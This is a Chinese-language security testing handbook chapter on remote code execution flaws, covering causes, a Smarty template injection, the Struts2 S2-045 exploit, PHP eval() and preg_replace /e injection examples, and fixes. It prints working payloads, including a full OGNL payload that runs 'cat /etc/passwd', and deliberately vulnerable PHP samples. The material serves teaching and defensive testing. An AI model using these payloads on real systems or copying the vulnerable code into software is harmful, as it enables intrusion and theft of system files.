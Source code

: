 ﻿# 远程代码执行漏洞

------

《Web安全测试学习手册》- 远程代码执行漏洞

------

## 0x00 远程代码执行漏洞 - 介绍

### 1）什么是远程代码执行漏洞

远程命令执行漏洞

英文名称：RCE (remote code execution) ，简称RCE漏洞，是指用户通过浏览器提交执行命令，由于服务器端没有针对执行函数做过滤，导致在没有指定绝对路径的情况下就执行命令，可能会允许攻击者通过改变 $PATH 或程序执行环境的其他方面来执行一个恶意构造的代码。

### 2）远程代码执行漏洞的特点

远程代码执行是指攻击者可能会通过远调用的方式来攻击或控制计算机设备，无论该设备在哪里。

---

## 0x01 远程代码执行漏洞 - 风险等级

高

---

## 0x02 远程代码执行漏洞 - 原理

在Web应用中有时候程序员为了考虑灵活性、简洁性，会在代码调用eval函数(PHP函数)去处理。比如当应用在调用一些能将字符串转化成代码的函数时，没有考虑用户是否能控制这个字符串，将造成代码执行漏洞。

由于开发人员编写源码，没有针对代码中可执行的特殊函数入口做过滤，导致客户端可以提交恶意构造语句提交，并交由服务器端执行。命令注入攻击中WEB服务器没有过滤类似system()，eval()，exec()，assert()，preg replace() + /e 模式等函数是该漏洞攻击成功的最主要原因。

---

## 0x03 远程代码执行漏洞 - 常见场景

* 使用了危险函数的Web应用

* 低版本的Java语言Struts 2 框架

---

## 0x04 测试方案

### PHP中常见场景 - 模板引擎代码执行

Smarty简介

> Smarty是一个PHP的模板引擎。更明确来说，它可以帮助开发者更好地 分离程序逻辑和页面显示。最好的例子，是当程序员和模板设计师是不同的两个角色的情况，而且 大部分时候都不是同一个人的情况。

> CVE-ID : CVE-2017-1000480

产生原因：由于未对用户的输入点进行过滤，导致经过eval函数，造成代码执行

测试Payload：

```php
*/phpinfo();/*
```

![0x00.png](https://whitecell.io/upload/attach/201810/151_Q7UQ2FQZBK6GMYU.png "0x00.png")

### Java Struts2 （S2-045）

Struts 2 简介

> Struts2是一个基于MVC设计模式的Web应用框架，它本质上相当于一个servlet，在MVC设计模式中，Struts2作为控制器(Controller)来建立模型与视图的数据交互。Struts 2是Struts的下一代产品，是在 struts 1和WebWork的技术基础上进行了合并的全新的Struts 2框架。

> CVE-ID : CVE-2017-5638

产生原因：由于未对用户输入点进行过滤，被带入ErrorMessage，当做OGLN表达式解析，造成代码执行

测试Payload：

```java
%{(#nikenb='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='cat /etc/passwd').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}
```

![0x01.png](https://whitecell.io/upload/attach/201810/151_U5DJ59BAB32PBTM.png "0x01.png")

---

## 0x05 修复方案

### 通用修复方案

升级插件、框架新版本

### 具体修复方案

* 1.使用低权限用户执行应用程序。

* 2.升级到修复后的组件版本。

* 3.配置或代码过滤危险函数。

* 4.对于eval()函数一定要保证用户不能轻易接触eval的参数或者用正则严格判断输入的数据格式。

* 5.对于字符串一定要使用单引号包裹可控代码，并且插入前进行addslashes.

* 6.对于preg_replace放弃使用e修饰符。如果必须要用e修饰符，请保证第二个参数中，对于正则匹配出的对象，用单引号包裹 。

---

## 0x06 简单应用

### eval()函数简单利用

#### eval()函数漏洞利用 1

eval.php源代码

```php
<?php

error_reporting(0);

$data = $_GET['data'];
eval("\$ret = $data;");
echo $ret;
```

* /?data=phpinfo()

http://127.0.0.1/eval.php?data=phpinfo()

![Snipaste_2018-10-16_23-50-40.png](https://whitecell.io/upload/attach/201810/151_DYA63KETRJ8KN6P.png "Snipaste_2018-10-16_23-50-40.png")

* /?data=1;phpinfo()

http://127.0.0.1/eval.php?data=1;phpinfo()

![Snipaste_2018-10-16_23-53-00.png](https://whitecell.io/upload/attach/201810/151_HM9E94MW953QU9Q.png "Snipaste_2018-10-16_23-53-00.png")

* /?data=${phpinfo()}

http://127.0.0.1/eval.php?data=${phpinfo()}

![Snipaste_2018-10-16_23-54-55.png](https://whitecell.io/upload/attach/201810/151_EA6ERWN8GEZWFZM.png "Snipaste_2018-10-16_23-54-55.png")

#### eval()函数漏洞利用 2

eval.php源代码

```php
<?php

error_reporting(0);

$data = $_GET['data'];
eval("\$ret = strtolower('$data');");
echo $ret;
```

* /?data=1');phpinfo();//

http://127.0.0.1/eval.php?data=1%27);phpinfo();//

![Snipaste_2018-10-16_23-59-51.png](https://whitecell.io/upload/attach/201810/151_XJ23D6YM4Z7GXJ5.png "Snipaste_2018-10-16_23-59-51.png")

#### eval()函数漏洞利用 3

eval.php源代码

```php
<?php

error_reporting(0);

$data = $_GET['data'];
eval("\$ret = strtolower(\"$data\");");
echo $ret;
```

* /?data=${phpinfo()}【不适用于低版本PHP，测试5.5.38】

http://127.0.0.1/eval.php?data=${phpinfo()}

![Snipaste_2018-10-17_00-08-32.png](https://whitecell.io/upload/attach/201810/151_2EVBA7X7GNN73AS.png "Snipaste_2018-10-17_00-08-32.png")

* /?data=1";phpinfo();//

http://127.0.0.1/eval.php?data=1%22);phpinfo();//

![Snipaste_2018-10-17_00-10-53.png](https://whitecell.io/upload/attach/201810/151_GXYV5F9D6ZH4V23.png "Snipaste_2018-10-17_00-10-53.png")

### epreg replace() + /e函数简单利用

eval.php源代码

/?data=`<data>${phpinfo()}</data>`【不适用于低版本PHP，测试5.5.38】

http://127.0.0.1/eval.php?data=%3Cdata%3E${phpinfo()}%3C/data%3E

![Snipaste_2018-10-17_00-22-31.png](https://whitecell.io/upload/attach/201810/151_AJ5AZM2MB4DFJBE.png "Snipaste_2018-10-17_00-22-31.png")

------

作者 [@Mannix][1]     
2018 年 10月 17日

参考文档作者 [@Rvn0xsy][2]     
2018 年 03月 22日

[1]: http://mannix.top/
[2]: https://payloads.online/archivers/2018-03-22/1